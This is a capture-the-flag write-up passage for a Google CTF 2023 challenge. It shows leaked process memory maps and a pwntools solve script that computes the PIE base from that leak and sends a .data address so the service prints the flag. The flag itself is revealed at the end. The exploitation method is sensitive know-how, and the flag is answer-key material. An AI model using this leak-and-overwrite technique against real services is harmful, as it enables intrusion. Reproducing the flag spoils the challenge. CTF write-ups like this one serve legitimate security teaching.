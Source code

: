 ```bash  
7ffd5fbe9000-7ffd5fbeb000 r-xp 00000000 00:00 0
[vdso]  
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0
[vsyscall]  
```

Therefore, we'll write a script to parse this response and calculate the
correct address. We'll send that address when requested and the next time the
loop executes, it will print the newly written data (?).

## Solve Script  
```python  
from pwn import *

io = remote('wfw1.2023.ctfcompetition.com',1337)  
context.log_level='info'

# Offset to the string in .data section, which is printed in while loop  
data_string_offset = 0x21e0

# Find the piebase  
maps = io.recvuntil(b'/home/user/chal')  
maps = maps.split(b'/home/user/chal')[0].split(b'\n')[-1]  
piebase = int(maps[:12], 16)  
pieend = int(maps[13:-48], 16)

info("Pie base: %#x", piebase)  
info("Pie end: %#x", pieend)  
io.recvuntil(b'expire\n')

# Send address of label in .data, it will be overwritten with flag  
# Then on the next iteration of the loop, it will print  
io.sendline(hex(piebase + data_string_offset).encode() + b' 127')

# Flag plz  
warning(io.recv().decode())  
```

We run the script and get the flag.  
```json  
CTF{Y0ur_j0urn3y_is_0n1y_ju5t_b39innin9}  
```

Original writeup (https://github.com/Crypto-
Cat/CTF/blob/main/ctf_events/google_23/write-flag-where.md).